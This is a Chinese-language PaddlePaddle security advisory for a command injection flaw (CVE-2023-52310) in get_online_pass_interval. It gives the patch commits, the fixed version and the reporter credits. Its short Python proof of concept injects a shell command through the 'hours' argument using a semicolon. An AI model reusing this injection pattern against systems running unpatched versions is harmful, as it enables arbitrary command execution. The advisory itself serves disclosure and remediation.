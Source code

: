 ## PDSA-2023-019: Command injection in get_online_pass_interval

### CVE编号

CVE-2023-52310

### 影响

`get_online_pass_interval`存在命令注入漏洞，可造成任意命令执行，PoC代码如下：

```python
from paddle.incubate.distributed.fleet.fleet_util import FleetUtil

fleet_util = FleetUtil()
online_pass_interval = fleet_util.get_online_pass_interval(
    days="{20190720..20190729}",
    hours="9;touch /home/test/aaaa",
    split_interval=5,
    split_per_pass=2,
    is_data_hourly_placed=False
)
```

### 补丁

我们在commits [1aae481dfd7d2055c801563e254f1484b974b68e](https://github.com/PaddlePaddle/Paddle/pull/60023/commits/1aae481dfd7d2055c801563e254f1484b974b68e)、[c62d87eb91c84154af40946f17205d86f608866b](https://github.com/PaddlePaddle/Paddle/pull/60544/commits/c62d87eb91c84154af40946f17205d86f608866b) 和 [f8560c903c80450e37b8f304a9cd8207678f2f83](https://github.com/PaddlePaddle/Paddle/pull/60615/commits/f8560c903c80450e37b8f304a9cd8207678f2f83) 中对此问题进行了补丁。
修复将包含在飞桨2.6.0版本当中。

### 更多信息

请参考我们的[安全指南](../../SECURITY_cn.md)以获得更多关于安全的信息，以及如何与我们联系问题。

### 贡献者

此漏洞由 huntr.com 和 leeya_bug 提交。
